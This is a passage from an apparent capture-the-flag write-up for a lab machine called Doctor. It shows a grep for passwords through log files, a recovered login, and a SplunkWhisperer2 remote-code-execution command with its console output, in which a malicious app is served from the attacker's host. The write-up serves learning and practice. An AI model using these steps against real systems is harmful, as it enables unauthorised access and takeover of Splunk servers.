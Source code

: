 - `web@doctor:/var/log$ grep -B2 -A2 -ir passw . 2>/dev/null`

![image-20240126192250445](./Doctor.assets/image-20240126192250445.png)

- **get credential**: `shaun:Guitar123`
  - `su shaun`: successfully login splunk service
  - `ip:8089/`: successfully login splunk service

![image-20240126192432113](./Doctor.assets/image-20240126192432113.png)

### shaun -> root

- **LPE** Tool: [SplunkWhisperer2/PySplunkWhisperer2 at master · cnotin/SplunkWhisperer2 (github.com)](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)
- **POC**:

remote host

```console
└─╼$ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.14 --lport 1234 --username shaun --password Guitar123 --payload 'ping 10.10.14.14 -c 3'
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpbb0iq7js.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.14:1234/
10.10.10.209 - - [25/Jan/2024 22:50:06] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```